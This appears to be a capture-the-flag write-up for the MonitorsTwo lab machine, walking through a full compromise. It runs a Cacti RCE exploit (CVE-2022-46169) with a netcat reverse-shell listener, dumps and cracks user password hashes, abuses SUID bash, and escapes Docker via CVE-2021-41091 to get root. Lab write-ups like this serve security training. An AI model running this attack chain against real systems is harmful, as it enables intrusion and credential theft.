

# MonitorsTwo

<figure><figcaption></figcaption></figure>

## User Flag

### Enumeration

Start with a normal nmap:\


```console
toasty@parrot$ sudo nmap -sC -sV 10.10.11.211
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-25 00:33 BST
Nmap scan report for 10.10.11.211
Host is up (0.028s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Login to Cacti
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We see that we have a webpage open so let's visit that.

### Cacti

\
We get a page for Cacti login and it is running version 1.2.22. A quick google search leads us to a CVE and exploit for this version of Cacti.

<figure><figcaption></figcaption></figure>

### CVE-2022-46169

[CVE-2022-46169](https://nvd.nist.gov/vuln/detail/CVE-2022-46169) allows for unauthenticated users to perform remote code execution (RCE). We don't have a username:password combo so this is perfect for us.\
We will be using the python POC from [FredBrave](https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22). We will need two terminals, an exploit runner and a listener.

#### Exploit Runner

```console
toasty@parrot$ python3 CVE-2022-46169.py -u http://10.10.11.211 --LHOST=10.10.14.231 --LPORT=9001
Checking...
The target is vulnerable. Exploiting...
Bruteforcing the host_id and local_data_ids
Bruteforce Success!!
```

#### Listener

```console
toasty@parrot$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.231] from (UNKNOWN) [10.10.11.211] 37132
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
bash-5.1$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

We can see we have access as `www-data` now.

### Machine Enumeration

Let's get a feel of our environment:

```console
bash-5.1$ pwd
/var/www/html
bash-5.1$ ls -a  
ls -a 
.
..
.mdl_style.rb
.mdlrc
.rnd
CHANGELOG
LICENSE
README.md
about.php
...SNIP
typescript
```

There is a lot of files in the `/var/www/html` directory but one that revealed crucial information was the `typescript` file:

#### Typescript file

```console
bash-5.1$ ls /
bin   dev	     etc   lib	  media  opt   root  sbin  sys	usr
boot  entrypoint.sh  home  lib64  mnt	 proc  run   srv   tmp	var
bash-5.1$ cat entrypoint.sh
#!/bin/bash
set -ex

wait-for-it db:3306 -t 300 -- echo "database is connected"
if [[ ! $(mysql --host=db --user=root --password=root cacti -e "show tables") =~ "automation_devices" ]]; then
    mysql --host=db --user=root --password=root cacti < /var/www/html/cacti.sql
    mysql --host=db --user=root --password=root cacti -e "UPDATE user_auth SET must_change_password='' WHERE username = 'admin'"
    mysql --host=db --user=root --password=root cacti -e "SET GLOBAL time_zone = 'UTC'"
fi

chown www-data:www-data -R /var/www/html
# first arg is `-f` or `--some-option`
if [ "${1#-}" != "$1" ]; then
	set -- apache2-foreground "$@"
fi

exec "$@"
```

The typescript file appears to be a list of commands previously ran, and it points to a file `entrypoint.sh` that has a username and password for a mysql instance. Upon checking the root directory for the entrypoint file I did not find it.

#### Docker

Poking around some more on the machine it appears this web server is running in a docker container. ( `.dockerenv` file found in our root directory)

```console
bash-5.1$ ls -a /
ls -a /
.
..
.dockerenv
bin
boot
dev
etc
...SNIP
```

### MySQL

Let's try to log into the mysql instance using the credentials found in the `typescript` file:\


```console
bash-5.1$ mysql --host=db --user=root --password=root
Welcome to the MariaDB monitor.  Commands end with ; or \g.
..SNIP

MySQL [(none)]>	show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| cacti              |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0.002 sec)

MySQL [(none)]>	use cacti

Database changed
MySQL [cacti]> show tables;
+-------------------------------------+
| Tables_in_cacti                     |
+-------------------------------------+
| aggregate_graph_templates           |
| aggregate_graph_templates_graph     |
| aggregate_graph_templates_item      |
| aggregate_graphs                    |
...SNIP      |
| user_auth                           |
+-------------------------------------+
111 rows in set (0.002 sec)

MySQL [cacti]> select * from user_auth;
+----+----------+--------------------------------------------------------------+-------+----------------+------------------------+----------------------+-----------------+-----------+
| id | username | password                                                     | realm | full_name      | email_address          | must_change_password | password_change | show_tree | 
|  1 | admin    | $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC |     0 | Jamie Thompson | admin@monitorstwo.htb  |                      | on              | on        | 
|  3 | guest    | 43e9a4ab75570f5b                                             |     0 | Guest Account  |                        | on                   | on              | on        | 
|  4 | marcus   | $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C |     0 | Marcus Brune   | marcus@monitorstwo.htb |                      |                 | on        | 

3 rows in set (0.001 sec)
```

I only included the relevant enumeration of the mysql databases. In short, we were able to log in and see the different databases. The `cacti` database was not a standard database so we used that. I then ran `show tables;` to see all the tables in cacti and there was a lot (111). There were a few with `auth` in the title but the one that ended up being 'the' one to use was `user_auth`. From there we got two usernames and hashes.

### Crack that Hash

I attempt to crack the hash of both `admin` and `marcus` however only marcus finished in a timely matter so I cancelled the admin one.

#### Marcus Hash

I used `-m 3200` because the hash was recognized as a bcrypt hash on the first admin run-through during auto selection. We can confirm that on the [hashcat wiki](https://hashcat.net/wiki/doku.php?id=example\_hashes).

```powershell
PS C:\temp\hashcat-6.2.6> .\hashcat.exe -m 3200 C:\temp\marcus.txt C:\temp\wordlists\rockyou.txt
hashcat (v6.2.6) starting
...SNIP

Dictionary cache hit:
* Filename..: C:\temp\wordlists\rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384


$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C:funkymonkey

```

### SSH Access

`marcus:funkymonkey`, we can now try to use those credentials to ssh into the machine:

```console
toasty@parrot$ sshpass -p funkymonkey ssh marcus@10.10.11.211
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-147-generic x86_64)
...SNIP

You have mail.
Last login: Sat Aug 26 07:10:21 2023 from 10.10.14.231
marcus@monitorstwo:~$ 
```

### User.txt

And now that we are in the `user.txt` flag is readable:

```console
marcus@monitorstwo:~$ ls
index.html user.txt
marcus@monitorstwo:~$ cat user.txt 
11bbd***************************
```

## Root Flag

### You've Got Mail

Before we start more enumeration steps, when logging into our ssh session we see that the user has mail.

```console
marcus@monitorstwo:~$ cat /var/mail/marcus 
From: administrator@monitorstwo.htb
To: all@monitorstwo.htb
Subject: Security Bulletin - Three Vulnerabilities to be Aware Of

Dear all,

We would like to bring to your attention three vulnerabilities that have been recently discovered and should be addressed as soon as possible.

CVE-2021-33033: This vulnerability affects the Linux kernel before 5.11.14 and is related to the CIPSO and CALIPSO refcounting for the DOI definitions. Attackers can exploit this use-after-free issue to write arbitrary values. Please update your kernel to version 5.11.14 or later to address this vulnerability.

CVE-2020-25706: This cross-site scripting (XSS) vulnerability affects Cacti 1.2.13 and occurs due to improper escaping of error messages during template import previews in the xml_path field. This could allow an attacker to inject malicious code into the webpage, potentially resulting in the theft of sensitive data or session hijacking. Please upgrade to Cacti version 1.2.14 or later to address this vulnerability.

CVE-2021-41091: This vulnerability affects Moby, an open-source project created by Docker for software containerization. Attackers could exploit this vulnerability by traversing directory contents and executing programs on the data directory with insufficiently restricted permissions. The bug has been fixed in Moby (Docker Engine) version 20.10.9, and users should update to this version as soon as possible. Please note that running containers should be stopped and restarted for the permissions to be fixed.

We encourage you to take the necessary steps to address these vulnerabilities promptly to avoid any potential security breaches. If you have any questions or concerns, please do not hesitate to contact our IT department.

Best regards,

Administrator
CISO
Monitor Two
Security Team
```

### Checking Vulns

```console
marcus@monitorstwo:~$ uname -r
5.4.0-147-generic
marcus@monitorstwo:~$ docker version
Client:
 Version:           20.10.5+dfsg1
 API version:       1.41
 Go version:        go1.15.9
...SNIP
```

There are 3 CVE's that were plaguing this machine at some point. We know that `2020-25706` is no longer relevant as our Cacti version is 1.2.22. `2021-33033` looks like it may still be in play, but the date for the CVE is 2021 and our machine was created 2023. We will need to focus our attention on `2021-41091`.

### CVE-2021-41091

This [CVE](https://nvd.nist.gov/vuln/detail/CVE-2021-41091) is insufficient restricted permissions, allowing directory traversal/command execution/priv escalation. The POC that we will abuse is by [UncleJ4ck](https://github.com/UncleJ4ck/CVE-2021-41091).\


In short we need to have a two sessions on the target. One in the docker container, and a second as a regular user. In the docker container we elevate our privileges and then use that to allow the unprivileged non-dockered user to execute it. We do that by running the `exp.sh` script on the regular user account and it will confirm that the machine is vulnerable and try to spawn a shell as root.

### Not enough permissions

We start by going back to our `www-data` reverse shell since it was in the container. To follow the POC we need to run the command `chmod u+s /bin/bash` but if we try to do that without elevating we get an error:\


```console
bash-5.1$ chmod u+s /bin/bash
chmod u+s /bin/bash
chmod: changing permissions of '/bin/bash': Operation not permitted
```

We see we don't have the proper permissions, so we need to find a way to elevate.

### Find SUID binaries

```console
bash-5.1$ find / -perm -4000 2>/dev/null
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/newgrp
/sbin/capsh
/bin/mount
/bin/umount
/bin/bash
/bin/su
```

This command gives us all the SUID binaries ,that we can read/execute. If we go to [gtfobins](https://gtfobins.github.io/gtfobins), we can use one of them to elevate our privileges. Now that we have that information, we can run our exploit

### Exploit

We will use the `/bin/bash` SUID binary to elevate our priveleges:

**DOCKER - Elevate and Chmod /bin/bash**

```console
bash-5.1$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash-5.1$ bash -p
id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
chmod u+s /bin/bash
```

After running `bash -p` we can see that our effective uid is that of root:\
`euid=0(root)`\


**HOST - Run PoC script**

```console
marcus@monitorstwo:/tmp/tmp782$ ./exp.sh 
[!] Vulnerable to CVE-2021-41091
[!] Now connect to your Docker container that is accessible and obtain root access !
[>] After gaining root access execute this command (chmod u+s /bin/bash)

Did you correctly set the setuid bit on /bin/bash in the Docker container? (yes/no): yes
...SNIP

[?] Checking path: /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
[!] Rooted !
[>] Current Vulnerable Path: /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
[?] If it didn't spawn a shell go to this path and execute './bin/bash -p'

[!] Spawning Shell
bash-5.1# exit

marcus@monitorstwo:/tmp/tmp782$ id
uid=1000(marcus) gid=1000(marcus) groups=1000(marcus)
marcus@monitorstwo:/tmp/tmp782$ /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/bin/bash -p
bash-5.1# id
uid=1000(marcus) gid=1000(marcus) euid=0(root) groups=1000(marcus)
```

We now have root access outside our container!

### Root.txt

```console
bash-5.1# ls /root
cacti  root.txt
bash-5.1# cat /root/root.txt
656f6***************************
```
